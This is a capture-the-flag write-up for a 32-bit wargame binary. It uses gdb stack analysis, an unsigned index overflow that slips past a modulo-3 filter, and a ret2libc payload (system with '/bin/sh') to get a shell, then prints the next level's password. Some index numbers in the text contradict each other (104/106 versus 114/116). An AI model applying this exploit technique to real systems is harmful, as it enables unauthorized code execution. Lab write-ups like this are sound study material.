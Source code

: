 # Write up

Canary here, but disassembling the code shows us than we can bypass it and still exploit a buffer overflow.

Reading the code, we can already guess that the int offset will be over 107.
By evaluating the stack offset, we search for eip offset using gdb :
```
# Break here :
# 80488f6:	eb 6d                	jmp    8048965 <main+0x242>
(gdb) break *0x080488f6
Breakpoint 1 at 0x80488f6
(gdb) run
...
Input command: store
 Number: 512 					// 0x00000200
 Index: 91
...
# 555555 => 0x00087a23
(gdb) x/200x $esp
...
0xffffd620:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd630:     [0x00000200]      0x00000000      0x00000000      0x00000000
0xffffd640:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd650:     0x00000000      0x00000000      0x726f7473      0x00000065
0xffffd660:     0x00000000      0x00000000      0x00000000      0xa084d700 <= Generated canary here (index = 106), sigabort at quit if modified with a *** stack smashing detected ***:  terminated message
0xffffd670:     0xf7feb620      0x00000000      0x08048a09      0xf7fceff4
0xffffd680:     0x00000000      0x00000000      0x00000000      [0xf7e45513] <= Saved eip
0xffffd690:     0x00000001      0xffffd724      0xffffd72c      0xf7fd3000
0xffffd6a0:     0x00000000      0xffffd71c      0xffffd72c      0x00000000
0xffffd6b0:     0x080482b8      0xf7fceff4      0x00000000      0x00000000
0xffffd6c0:     0x00000000      0x88ba5601      0xbfbed211      0x00000000
...
(gdb) info frame
Stack level 0, frame at 0xffffd690:
 eip = 0x80488f6 in main; saved eip [0xf7e45513] <=
 Arglist at 0xffffd688, args:
 Locals at 0xffffd688, Previous frame's sp is 0xffffd690
 Saved registers:
  ebx at 0xffffd67c, ebp at 0xffffd688, esi at 0xffffd680, edi at 0xffffd684, eip at 0xffffd68c
```

By analysing the stack, we found the saved eip at index 114.
Howerer, 114 is escaped (38 x 3), so we have to input it in a more fancy way.

Pointers are on 4 bytes for 32-bit systems, so since the index given is an uint, we will overflow the pointer movement, make it do a whole turn in memory and comeback at the index 114, bypassing the mod 3 filter :
```
(index * UINT_MAX) / sizeof(uint32_t) <= 1073741938 for index = 114
```

Note that since we're given runtime addresses using 0xff~, the 0xb7~ filter is pointless here.
Lets prepare the ret2libC :
```
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>		// 4159090384, for index 104 (saved eip)
(gdb) find &system, +9999999, "/bin/sh"
0xf7f897ec														// 4160264172, for index 106 (arg, 105 is junk)
```

Lets go :
```
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```